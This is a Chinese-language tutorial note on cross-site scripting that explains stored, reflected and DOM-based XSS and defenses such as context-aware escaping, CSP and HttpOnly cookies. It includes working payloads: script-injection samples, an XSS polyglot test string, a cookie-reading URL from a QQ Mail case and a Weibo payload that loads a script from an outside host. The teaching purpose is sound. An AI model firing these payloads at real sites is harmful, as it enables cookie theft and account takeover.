

<!--
 * @Description: 认识XSS攻击与防范
 * @Date: 2019-08-13 10:37:24
 * @LastEditors: phoebus
 * @LastEditTime: 2019-08-13 11:33:37
 -->

# 认识XSS攻击与防范

## 概述

#### 简介

	跨站脚本攻击(Cross Site Scripting)

* 跨站脚本攻击，是一种允许攻击者在另外一个用户的浏览器中执行恶意代码脚本的脚本注入式攻击

* 本来缩写应该是CSS，但为了和层叠样式（Cascading Style Sheet,CSS）有所区分，故称XSS

* 对于攻击者来说，能够让受害者浏览器执行恶意代码的唯一方式，就是把代码注入到受害者从网站下载的网页中

#### 常见漏洞

	XSS 攻击可分为存储型、反射型和 DOM 型三种

* 存储区：恶意代码存放的位置。插入点：由谁取得恶意代码，并插入到网页上。



###### 存储型

* 存储型 XSS 的攻击步骤：

	1. 攻击者将恶意代码提交到目标网站的数据库中；
	2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器；
	3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行；
	4. 在部分情况下，恶意代码加载外部的代码，用于执行更复杂的逻辑；
	5. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

* 常见位置

	论坛发帖、商品评论、用户私信等

###### 反射型

* 反射型 XSS 的攻击步骤：

	1. 攻击者构造出特殊的 URL，其中包含恶意代码；
	2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器；
	3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行；
	4. 在部分情况下，恶意代码加载外部的代码，用于执行更复杂的逻辑；
	5. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

* 反射型 XSS 跟存储型 XSS 的区别

	存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

* 常见位置

	通过 URL 传递参数的功能：如网站搜索. 跳转等

> 注：需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击

	POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见

###### DOM 型

* DOM 型 XSS 的攻击步骤：

	1. 攻击者构造出特殊的 URL，其中包含恶意代码；
	2. 用户打开带有恶意代码的 URL；
	3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行；
	4. 在部分情况下，恶意代码加载外部的代码，用于执行更复杂的逻辑；
	5. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

* DOM 型 XSS 跟前两种 XSS 的区别

	DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞

#### XXS攻击的种类

###### 持续型XSS攻击

	恶意脚本来源于网站的数据库

**场景**

	这种攻击方式恶意代码会被存储在数据库中，其他用户在正常访问的情况下，也有会被攻击，影响的范围比较大


**流程**

1. 攻击者通过评论表单提交将`<script>alert('aaa')</script>`提交到网站
2. 网站后端对提交的评论数据不做任何操作，直接存储到数据库中
3. 其他用户访问正常访问网站，并且需要请求网站的评论数据
4. 网站后端会从数据库中取出数据，直接返回给用户
5. 用户得到页面后，直接运行攻击者提交的代码`<script>alert('aaa')</script>`，所有用户都会在网页中弹出aaa的弹窗

###### 反射型XSS攻击

	恶意脚本来源于受害者的请求

	在一个反射型XSS攻击中，恶意文本属于受害者发送给网站的请求中的一部分。随后网站又把恶意文本包含进用于响应用户的返回页面中，发还给用户

**场景**

	反射型的攻击需要用户主动的去访问带攻击的链接，攻击者可以通过邮件或者短信的形式，诱导受害者点开链接。如果攻击者配合短链接URL，攻击成功的概率会更高


**流程**

1. 用户误点开了带攻击的url：`http://xxx?keyword=<script>alert('aaa')</script>`
2. 网站给受害者的返回中包含了来自URL的的恶意文本
3. 用户的浏览器收到文本后执行页面，会在网页中弹窗aaa

###### 基于DOM的XSS攻击

	基于DOM的XSS攻击是反射型攻击的变种。服务器返回的页面是正常的，只是我们在页面执行js的过程中，会把攻击代码植入到页面中

**场景**

	这种攻击方式发生在我们合法的js执行中，服务器无法检测我们的请求是否有攻击的危险


**流程**

1. 用户误点开了带攻击的url：`http://xxx?name=<script>alert('aaa')</script>`
2. 网站给受害者的返回中正常的网页
3. 用户的浏览器收到文本后执行页面合法脚本，这时候页面恶意脚本会被执行，会在网页中弹窗aaa

#### 常见XSS注入方式

* 在 HTML 中内嵌的文本中，恶意内容以 `script 标签`形成注入。

* 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。

* 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。

* 在标签的 `href、src` 等属性中，包含 `javascript:` 等可执行代码。

* 在 `onload、onerror、onclick` 等事件中，注入不受控制代码。

* 在 style 属性和标签中，包含类似 `background-image:url("javascript:...");` 的代码（`新版本浏览器已经可以防范`）。

* 在 style 属性和标签中，包含类似 `expression(...)` 的 CSS 表达式代码（`新版本浏览器已经可以防范`）。

#### 不可信输入

* 来自用户的 UGC 信息

* 来自第三方的链接

* URL 参数

* POST 参数

* Referer （可能来自不可信的来源）

* Cookie （可能来自其他子域注入）

#### 攻击的危害

* 攻击者把代码注入进了访问的页面，所以恶意脚本都在网站的上下文环境中执行

* 这就意味着恶意代码被当做网站提供的正常脚本一样对待

	* 他有权访问页面与网站的关键数据（比如cookie）

	* 浏览器会认为他是网站的合法部分，允许他做任何事情

		* 比如拿到用户的cookie信息，然后传送到攻击者自己的服务器，从cookie中提取敏感信息，拿到用户的登录信息，或者攻击者可以通过修改DOM在页面上插入一个假的登陆框
		* 也可以把表单的`action`属性指向他自己的服务器地址，然后欺骗用户提交自己的敏感信息。

* 盗取各类用户帐号权限 (控制所盗窃权限数据内容)，如机器登录帐号、用户网银帐号、各类管理员帐号

* 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

* 基于 XSS 的跨站业务请求 (如：非法转账、非法下单、非法转载 / 发表内容、发送电子邮件、利用管理员身份提权挂马、控制受害者机器向其它网站发起攻击等)

* 形成持久化 APT 攻击(Advanced Persistent Threat，高级持续性威胁)，长期控制网站业务中枢

	利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式

	> [2018年全球十大APT攻击事件盘点](https://www.freebuf.com/column/193394.html)

* 利用跨站业务形成蠕虫病毒式传播

* 劫持网站，劫持后可用于钓鱼、伪装、跳转、挂广告等，属挂马类型

#### XSS攻击的预防

###### XSS 攻击有两大要素

	攻击者提交恶意代码、浏览器执行恶意代码

###### 输入过滤

* 通过"防止浏览器执行恶意代码"来防范 XSS

	* 防止 HTML 中出现注入

	* 防止 JavaScript 执行时，执行恶意代码

* 预防存储型和反射型 XSS 攻击

	存储型和反射型 XSS 都是在服务端取出恶意代码后，插入到响应 HTML 里的，攻击者刻意编写的"数据"被内嵌到"代码"中，被浏览器所执行
	
	* 常见做法

		* 改成纯前端渲染，把代码和数据分隔开
		* 对 HTML 做充分转义
	
	* 纯前端渲染
		
		* 纯前端渲染的过程：

			1. 浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据
			2. 然后浏览器执行 HTML 中的 JavaScript
			3. JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上
	
	> 在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（`innerText`），还是属性（`setAttribute`），还是样式（`style`）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了

		但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等）

	* 转义 HTML

		* 常用的模板引擎，如 `doT.js、ejs、FreeMarker` 等，对于 HTML 转义通常只有一个规则，就是把 `& < > "  ' / `这几个字符转义掉，确实能起到一定的 XSS 防护作用

		> 但并不完善，要使用更完善更细致的转义策略

		* 完善

			* 例如 Java 工程里，常用的转义库为 `org.owasp.encoder`

			``` html
			<!-- HTML 标签内文字内容 -->
			<div><%= Encode.forHtml(UNTRUSTED) %></div>
			<!-- HTML 标签属性值 -->
			<input value="<%= Encode.forHtml(UNTRUSTED) %>" />
			<!-- CSS 属性值 -->
			<div style="width:<= Encode.forCssString(UNTRUSTED) %>">
			<!-- CSS URL -->
			<div style="background:<= Encode.forCssUrl(UNTRUSTED) %>">
			<!-- JavaScript 内联代码块 -->
			<script>  var msg = "<%= Encode.forJavaScript(UNTRUSTED) %>";  alert(msg);</script>
			<!-- JavaScript 内联代码块内嵌 JSON -->
			<script>var __INITIAL_STATE__ = JSON.parse('<%= Encoder.forJavaScript(data.to_json) %>');</script>
			<!-- HTML 标签内联监听器 -->
			<button  onclick="alert('<%= Encode.forJavaScript(UNTRUSTED) %>');">
			click me
			</button>
			<!-- URL 参数 -->
			<a href="/search?value=<%= Encode.forUriComponent(UNTRUSTED) %>&order=1#top">
			<!-- URL 路径 -->
			<a href="/page/<%= Encode.forUriComponent(UNTRUSTED) %>">
			<!--  URL、 注意：要根据项目情况进行过滤，禁止掉 "javascript:" 链接、非法 scheme 等-->
			<a href='<%=  urlValidator.isValid(UNTRUSTED) ? Encode.forHtml(UNTRUSTED) : "/404"%>'>
				link
			</a>
			```

* 预防 DOM 型 XSS 攻击

	DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了

* 在使用`innerHTML、outerHTML、document.write()`时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用`textContent、setAttribute()`等

* 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 `render 阶段`避免 `innerHTML、outerHTML` 的 XSS 隐患

* DOM 中的内联事件监听器

	* 如 `location、onclick、onerror、onload、onmouseover` 等，`<a>` 标签的 href 属性，JavaScript 的 `eval()、setTimeout()、setInterval()` 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患

``` html
<!-- 内联事件监听器中包含恶意代码 -->

<!-- 链接内包含恶意代码 -->
<a href="UNTRUSTED">1</a>
<script>
// setTimeout()/setInterval() 中调用恶意代码 
setTimeout("UNTRUSTED")setInterval("UNTRUSTED") 
// location 调用恶意代码
location.href = 'UNTRUSTED'
// eval() 中调用恶意代码
eval("UNTRUSTED")
</script>
```

#### 其他XSS防范措施

* Content Security Policy

	* 严格的 CSP 在 XSS 的防范中可以起到以下的作用：
	* 禁止加载外域代码，防止复杂的攻击逻辑。
	* 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
	* 禁止内联脚本执行（规则较严格，目前发现 github 使用）。
	* 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
	* 合理使用上报可以及时发现 XSS，利于尽快修复问题

* 输入内容长度控制

	* 对于不受信任的输入，都应该限定一个合理的长度。虽然无法完全防止 XSS 发生，但可以增加 XSS 攻击的难度

* 其他安全措施

	* HTTP-only Cookie: 禁止 JavaScript 读取某些敏感 Cookie，攻击者完成 XSS 注入后也无法窃取此 Cookie。
	* 验证码：防止脚本冒充用户提交危险操作

#### 检查XSS漏洞

###### 检查方式

	使用通用 XSS 攻击字符串手动检测 XSS 漏洞
	使用扫描工具自动检测 XSS 漏洞

###### 手动注入检查

``` js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

> 能够检测到存在于 `HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表`等多种上下文中的 XSS 漏洞，也能检测 `eval()、setTimeout()、setInterval()、Function()、innerHTML、document.write()` 等 DOM 型 XSS 漏洞，并且能绕过一些 XSS 过滤器

* 只要在网站的各输入框中提交这个字符串，或者把它拼接到 URL 参数上，就可以进行检测了

``` bash
http://xxx/search?keyword=jaVasCript%3A%2F*-%2F*%60%2F*%60%2F*%27%2F*%22%2F**%2F(%2F*%20*%2FoNcliCk%3Dalert()%20)%2F%2F%250D%250A%250d%250a%2F%2F%3C%2FstYle%2F%3C%2FtitLe%2F%3C%2FteXtarEa%2F%3C%2FscRipt%2F--!%3E%3CsVg%2F%3CsVg%2FoNloAd%3Dalert()%2F%2F%3E%3E
```

###### 自动扫描工具

	Arachni、Mozilla HTTP Observatory、w3af

#### 常见问题

###### XSS 防范是后端 RD 的责任，后端 RD 应该在所有用户提交数据的接口，对敏感字符进行转义，才能进行下一步操作。

	不正确。

* 防范存储型和反射型 XSS 是后端 RD 的责任。而 DOM 型 XSS 攻击不发生在后端，是前端 RD 的责任。防范 XSS 是需要后端 RD 和前端 RD 共同参与的系统工程。

* 转义应该在输出 HTML 时进行，而不是在提交用户输入时。

###### 所有要插入到页面上的数据，都要通过一个敏感字符过滤函数的转义，过滤掉通用的敏感字符后，就可以插入到页面了。

	不正确。
	
* 不同的上下文，如 `HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表`等，所需要的转义规则不一致。

* 业务 RD 需要选取合适的转义库，并针对不同的上下文调用不同的转义规则。

#### 减少漏洞的产生

###### 利用模板引擎

	开启模板引擎自带的 HTML 转义功能。例如：在 ejs 中，尽量使用 <%= data %> 而不是 <%- data %>；在 doT.js 中，尽量使用 {{! data } 而不是 {{= data }；在 FreeMarker 中，确保引擎版本高于 2.3.24，并且选择正确的 freemarker.core.OutputFormat。

###### 避免内联事件

	尽量不要使用 onLoad="onload('{{data}}')"、onClick="go('{{action}}')" 这种拼接内联事件的写法。在 JavaScript 中通过 .addEventListener() 事件绑定会更安全。

###### 避免拼接 HTML

	前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 createElement、setAttribute 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。

###### 时刻保持警惕

	在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。

###### 增加攻击难度，降低攻击后果

	通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。

###### 主动检测和发现

	可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。

## XSS攻击案例

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

* 攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中

* 于是攻击者构建出一个 URL，并引导用户去点击：`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

* 用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中

``` html
<script>getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

* 浏览器接收到响应后就会执行 alert(document.cookie)，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全

#### 新浪微博名人堂反射型 XSS 漏洞

* 攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

* 于是攻击者构建出一个 URL，然后诱导用户去点击：
`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

* 用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

``` html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

* 浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为"`XSS 蠕虫`"

> 微信自有机制过滤常见的攻击

> 参考：[美团技术团队](https://mp.weixin.qq.com/s/kWxnYcCTLAQp5CGFrw30mQ) | [Unleashing an Ultimate XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) | [【前端安全】JavaScript防XSS攻击](https://www.cnblogs.com/caizhenbo/p/6836390.html)
